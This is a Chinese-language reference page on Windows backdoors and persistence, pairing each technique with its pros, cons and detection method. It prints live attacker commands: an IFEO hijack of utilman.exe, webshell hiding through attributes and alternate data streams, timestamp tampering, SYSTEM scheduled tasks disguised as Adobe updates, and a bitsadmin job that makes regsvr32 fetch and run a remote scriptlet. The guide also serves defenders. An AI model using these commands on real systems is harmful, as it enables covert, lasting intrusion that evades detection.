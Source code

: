 ## windows常见backdoor、权限维持方法及排查技术

### 什么是Persistence？ [^1]

### 常见backdoor和persistence方式方法

1. #### 系统工具替换后门 [^2]

   ```powershell
   # Image劫持辅助工具管理器（utilman.exe, 快捷键 Win + U）
   # 注册表更改命令详见 `reg.exe` 应用程序
   REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
   # 结果就是只要按键盘 Win + U 就可以打开 cmd 窗口，而不是辅助工具管理器窗口
   ```

   - 类似的程序有osk.exe（屏幕键盘程序）、Narrator.exe（讲述人程序）、Magnify.exe（放大镜程序）等
   - 优点：简单
   - 缺点：易被检测
   - 排查：工具autoruns [^3]

2. #### 文件隐藏

   1. ##### attrib命令隐藏 [^4]

      `attrib +r +s +h webshell.php`

      - 优点：简单

      - 缺点：暂无
      - 排查：使用 attrib 命令，dir 命令（`dir /a`) 或者D盾

   2. ##### 使用ADS流隐藏webshell

      `echo "hello world" > demo.c:flags.txt`

      `echo "hello" > :key.txt` [^5]

      `notepad demo.c:flags.txt`

      `type demo.c:flags.txt`

      - ```powershell
        # 此时应该注意修改文件的timestamp，可使用如下的powershell命令或者使用NewFileTime工具
        # $(Get-Item ).creationtime=$(Get-Date "mm/dd/yyyy hh:mm am/pm")
        # $(Get-Item ).lastaccesstime=$(Get-Date "mm/dd/yyyy hh:mm am/pm")
        # $(Get-Item ).lastwritetime=$(Get-Date "mm/dd/yyyy hh:mm am/pm")
        # example：
        # Set the last-access time for a file aaa.csv to the current time:  
        $(Get-Item aaa.csv).lastwritetime=$(Get-Date)
        # Set the creation time of a file foo.txt to November 24, 2015, at 6:00am: 
        $(Get-Item foo.txt).creationtime=$(Get-Date "11/24/2015 06:00 am")
        ```

      - 优点：较难检测
      - 缺点：暂无
      - 排查： `dir /r`
      - Ref : [利用ADS隐藏webshell](https://www.cnblogs.com/xiaozi/p/7610984.html) 、[Windows ADS在渗透测试中的妙用](https://www.freebuf.com/articles/terminal/195721.html)

3. #### 计划任务

   `schtasks /delete /tn "AdobeReaderUpdate" /f`

   `schtasks /create /ru "System" /tn "AdobeReaderUpdate" /sc Weekly /d * /st 18:00:00 /tr "powershell.exe C:\Windows\System32\drivers\en-US\etc\Line.ps1"`

   `SCHTASKS /Create /RU "SYSTEM" /tn "AdobeReaderUpdateEnd" /sc Weekly /d MON,TUE,WED,THU,FRI /st 06:00:00 /tr "powershell.exe Stop-Process -Name $processname"`

   `taskschd.msc`

   - 优点：简单
   - 缺点：易被检测
   - 排查： `schtasks /query `命令进行查询或者通过计算机的管理查看，注意在windows的中文版系统中，schtasks命令需要切换字符为美国英语格式，使用命令`chcp 437`，或者直接工具autoruns

4. #### 开机启动项

   ```powershell
   HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
   HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
   HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
   ...
   ```

   - 优点：重启权限维持
   - 缺点：一般杀软均会拦截
   - 排查：autoruns

5. #### 服务

   `sc create [ServerName] binPath= BinaryPathName`

   - 优点：重启权限维持
   - 缺点：一般杀软会拦截
   - 排查：工具autoruns

6. #### waitfor.exe

   - 不支持自启动，但可远程主动激活，后台进程显示为waitfor.exe
   - `certutil -encode infile outfile`
   - `certutil -decode infile outfile`
   - Ref : [详细参考](https://github.com/3gstudent/Waitfor-Persistence) 、[waitfor.md](waitfor.md) 
   - 优点：远程主动激活
   - 缺点：有waitfor进程
   - 排查：通过Process Explorer （procexp）工具查看是否有waitfor.exe进程，并进一步查看启动参数等

7. #### bitsadmin后门 [^6]

   ```powershell
   # 创建一个下载任务：
   bitsadmin /create backdoor
   # 添加文档：
   bitsadmin /addfile backdoor %comspec%  %temp%\cmd.exe
   # 设置下载成功之后要执行的命令：
   bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"
   # 执行任务：
   bitsadmin /Resume backdoor
   ```

   - Ref :  [bitsadmin.md](bitsadmin.md) 
   - 优点：系统自带无需上传
   - 缺点：免杀效果一般
   - 排查：`bitsadmin /list /verbose`

8. #### WMI后门

   - Ref: [参考文档](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf)、[Powersploit](https://github.com/PowerShellMafia/PowerSploit/blob/9e771d15bf19ab3c2ac196393c088ecdab6c9a73/Persistence/Persistence.psm1)
   - 优点：无文件，后门在系统重启五分钟之内触发且是system权限，相对来说难以排查
   - 缺点：暂无
   - 排查：工具autoruns

9. #### COM劫持

   - Ref:  [COM.md](COM.md) 、[CLR](https://www.4hou.com/technology/6863.html) 
   - 优点：隐藏性较好,autoruns查不到
   - 缺点：暂无
   - 排查：检查环境变量和注册表键值

10. #### meterpreter 权限维持 [^7]

  - `metsvc `是开机自启动的服务型后门
  - persistence模块是先上传vbs脚本并执行vbs脚本修改注册表`HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`从而完成自启动
  - Ref : [metsvc代码](https://github.com/rapid7/metasploit-framework/blob/76954957c740525cff2db5a60bcf936b4ee06c42/scripts/meterpreter/metsvc.rb)、[persistence代码](https://github.com/rapid7/metasploit-framework/blob/master/modules/post/windows/manage/persistence_exe.rb)
  - 优点：开机自启动
  - 缺点：容易被杀软杀
  - 排查：autoruns

11. #### Empire persistence模块 [^8]

    - Ref ： [参考文章](https://www.harmj0y.net/blog/empire/nothing-lasts-forever-persistence-with-empire/)
    - 优点：基本集成了大部分的权限维持方法
    - 缺点：暂无
    - 排查：工具autoruns

12. #### 进程注入 [^9]

    - Ref : [Hunting empire](https://holdmybeersecurity.com/2019/02/27/sysinternals-for-windows-incident-response/)
    - 优点：较难排查
    - 缺点：暂无
    - 排查：工具process explorer 、process monitor

### other

- 还有像是dll劫持、一些软件的插件后门、office后门等
- 更多windows backdoor方面最新文章可以关注国外安全研究员Casey Smith@subTee和Adam@Hexacorn

[原文](https://xz.aliyun.com/t/4842)

---

[^1]: 持久化是指即使在创建它的进程停止或其运行的机器断电之后仍然存在的对象和进程特性。当一个对象或状态被创建并且需要持久时，它将保存在非易失性存储位置（如硬盘驱动器）中，而不是临时文件或易失性随机存取存储器（RAM）
[^2]: Windows提供了一个命令replace.exe，通过它我们可以替换系统文件
[^3]: Windows Sysinternals工具集里的一个软件，可显示在系统启动或登录期间配置要运行的程序，以及启动各种内置Windows应用程序
[^4]: windows自带命令行工具attrib用来显示或更改文件属性
[^5]: 编辑时需退到上级目录进行查看 `dir /r`，删除时需要将宿主文件删除或使用 WinHex工具或压缩后解压替换
[^6]: Bitsadmin从win7之后操作系统就默认包含，可以用来创建上传或者下载任务。Bistadmin可以指定下载成功之后要进行什么命令。后门就是利用的下载成功之后进行命令执行
[^7]: meterpreter中的权限维持技术有两种，一种是metsvc的后门(服务后门)，另外一种是persistence(注册表后门)
[^8]: Empire是一款功能非常强大的后渗透攻击框架。其中的persistence模块提供了一系列权限维持方法。工具还把权限维持分为了四大类，userland(普通权限)、elevated(需要高权限)、powerbreach(内存权限维持，重启后失效)、miscellaneous(其它)
[^9]: 准确来说进程注入不是后门技术或者权限维持技术，而是一种隐藏技术，这里简单说一下empire的psinject、cobaltstrike的inject和meterpreter中的migrate进程注入，一般可以注入到像是lsass或者explorer这样的进程当中，相对比较隐蔽，较难排查
